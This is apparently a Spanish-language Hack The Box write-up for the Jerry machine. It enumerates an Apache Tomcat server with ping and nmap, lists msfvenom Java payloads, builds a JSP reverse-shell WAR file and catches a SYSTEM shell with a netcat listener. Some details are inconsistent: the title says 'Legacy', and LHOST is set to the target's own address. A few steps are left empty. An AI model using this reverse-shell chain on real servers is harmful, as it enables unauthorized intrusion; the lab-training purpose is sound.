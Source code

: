 # HACK THE BOX PEN - TESTING LABS
## MACHINE LEGACY
> ![alt text](https://i.postimg.cc/D0dT6YjV/knife.png)
---

### Sinopsis 
Aunque Jerry es una de las máquinas más fáciles en Hack The Box, es realista ya que Apache Tomcat es a menudo se encuentra expuesto y configurado con credenciales comunes o débiles.
### Habilidades Aprendidas

> * Enumeración y escaneo.
> * Conexion remota con Netcat.
> * Enumeración
> * Conocimientos básicos de windows
> * Abusing Tomcat [Intrusion & Privilege Escalation]
> * Fuga de información
> * Conocimientos básicos de Python/Ruby, etc. o familiaridad con herramientas web de ataque por fuerza bruta
> * Depuración básica de scripts
> * Creación de archivos war personalizados
> * SILENTTRINITY post-explotación
> * Instalación y uso del framework (cortesía de IppSec Jerry video)

## Enumeración y Escaneo

Para iniciar la fase de reconocimiento, se puede verificar la conectividad del equipo víctima; para esto se puede usar el protocolo _ICMP_, y con el _ttl_ obtenido se puede verificar la version del sistema.

#### Validación de conectividad.
```java
ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=63 time=91.7 ms
--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 91.713/91.713/91.713/0.000 ms

```
>*_Nota_*: el parametro *_-c_* de la traza icmp, permite enviar los paquetes asignados para la prueba, en el ejemplo anterior un solo paquete. Y como se pude interpretar, el ttl corresponde a una maquina linux.

### Escaneo y enumeración de servicios
Para la etapa de identificación de viulnerabilidades utilizamos la herramienta *_nmap_*, que servirá para verificar los servicioes y puertos expuestos.

#### Identicación de puertos y servicios con nmap. 65535 Puertos.
```java
# nmap -p- --open -T5 -v -n -oG allPorts 10.10.10.95
# nmap  -p- --open -sS --min-rate 5000-vvv -n -Pn 10.10.10.95 -oG allPorts
```
Con nmap se puede agregar el flag `-sCV`, para extaer mas detalles de la enumeración.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/jerry/nmap]
└─# cat targeted -l java
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: targeted
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.93 scan initiated Wed Jan 25 23:19:09 2023 as: nmap -p8080 -sCV -vvvv -oN targeted 10.10.10.95
   2   │ Nmap scan report for 10.10.10.95
   3   │ Host is up, received echo-reply ttl 127 (0.10s latency).
   4   │ Scanned at 2023-01-25 23:19:10 -05 for 14s
   5   │ 
   6   │ PORT     STATE SERVICE REASON          VERSION
   7   │ 8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
   8   │ |_http-favicon: Apache Tomcat
   9   │ |_http-title: Apache Tomcat/7.0.88
  10   │ |_http-server-header: Apache-Coyote/1.1
  11   │ | http-methods: 
  12   │ |_  Supported Methods: GET HEAD POST OPTIONS
  13   │ 
  14   │ Read data files from: /usr/bin/../share/nmap
  15   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  16   │ # Nmap done at Wed Jan 25 23:19:24 2023 -- 1 IP address (1 host up) scanned in 15.04 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Con el puerto numero 8080 abierto, se puede obtener información con `whatweb` para obtener información del servicio.
```java

```

## CREACIÓN APACHE TOMCAT, .war MSFVENOM
Primero filtramos el exploit de java para crear tipo warm
```java 
┌──(s3cur1ty3c㉿kali)-[~/CTF/HTB/jerry/nmap]
└─$ msfvenom -l payloads | grep java 
┌──(s3cur1ty3c㉿kali)-[~/CTF/HTB/jerry/nmap]
└─$ msfvenom -l payloads | grep java 
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
```
Creamos un payload con msfvenom y lo subimos a tomcat
```java 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.95 LPORT=443 -f war -o shell.war





┌──(root㉿kali)-[/home/…/CTF/HTB/jerry/nmap]
└─# rlwrap nc -nlvp 443                                  
listening on [any] 443 ...



C:\>whoami
whoami
nt authority\system

C:\>
